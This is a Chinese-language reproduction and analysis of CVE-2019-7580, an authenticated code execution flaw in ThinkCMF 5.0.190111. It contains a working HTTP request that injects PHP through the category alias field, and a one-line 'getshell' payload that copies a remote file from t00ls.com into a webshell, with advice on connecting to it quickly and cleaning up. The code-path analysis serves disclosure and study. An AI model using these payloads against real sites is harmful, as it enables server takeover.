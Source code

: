 （CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞
=====================================================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF 5.0.190111

三、复现过程
------------

### 0x01 利用过程：

后台登录状态下，
1、将payload插入数据库并读取然后写入data/conf/route.php文件

    POST /portal/admin_category/addpost.html HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 183
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
    Connection: close

    parent_id=0&name=111&alias=1'%3D%3Earray(%22%22)%2Cphpinfo()%2C'2

2、然后访问：

    /portal/admin_category/index.html

触发

    include data/conf/route.php

操作，执行payload。下图以执行sleep(5)作为演示。

![](./resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId25.png)

![](./resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId26.gif)

#### 补充

poc只是phpinfo,用eval一句话，或者用fputs写马 等都会报错

直接getshell exp

    1'=>array("",""),copy("http://t00ls.com/1.txt","1.php"),'2

这样网站也会崩掉

但是会再public下生成1.php

得快速连上，再清空thinkcmf\\data\\conf\\route.php 文件 网站方可恢复正常

### 0x02 利用过程与分析

#### 1、将payload插入数据库，写入data/conf/route.php文件

程序的入口是index.php,在index.php中\\think\\App::run()执行应用。

![](./resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId30.png)

在App.php的run()函数139行，执行sef::exec();

![](./resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId31.png)

通过解析url，得到处理此次请求的控制器、类、函数，即`AdminCategoryController.php`的`addPost`函数。然后调用`self::invokeMethod()`。

![](./resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId32.png)

通过反射执行`AdminCategoryController.php`的`addPost`函数。
在addPost函数中，从\$this-\>request-\>param()函数中得到请求中的参数传递给\$data。

![](./resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId33.png)

然后通过\$this-\>validata调用父类(./simplewind/thinkphp/library/think/Controller.php)的validata函数进行过滤。然后将\$data传入`./app/portal/model/PortalCategoryModel.php`的addCategory函数进行实际的\"添加分类\"操作。

![](./resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId34.png)

在addCategory函数中，184行这一句：

    $findRoute = $this->where('full_url', $fullUrl)->find();

通过查询数据中是否存在对应的url，由于是第一次插入，所以这里并没有查到。
154行和155行通过`setRoute`函数对数据库进行了两次插入操作。
根入`setRoute`函数，

![](./resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId35.png)

其中\$fullUrl和\$url的值如截图所示。 继续跟，

![](./resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId36.png)

在34行从数据库中查询查询相关数据，

    $routes      = $this->where("status", 1)->order("list_order asc")->select();

在`addCategory`函数的157行调用

    $routeModel->getRoutes(true);

最终得到`$allroutes`的值,创建`data/conf`目录，然后拼接待写入的`route.php`文件的完整路径，最后调用`file_put_contents()`完成写入。可见这个漏洞在于没有对`alias`参数中的单引号进行过滤，导致可通过闭合前后的单引号插入用户可控的payload。
写入前后对比如下：

![](./resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId37.png)

#### 2、触发payload执行

带着登录的cookie访问`/portal/admin_category/index.html`，调用`routeCheck`函数进行url路由检测

![](./resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId39.png)

这里先

    include app/route.php

![](./resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId40.png)

然后，

    include data/conf/route.php

![](./resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId41.png)

最终执行我们的payload：`phpinfo()`。

![](./resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId42.png)

参考链接
--------

> <https://xz.aliyun.com/t/3997#toc-6>
>
> <https://www.t00ls.net/thread-55060-1-1.html>
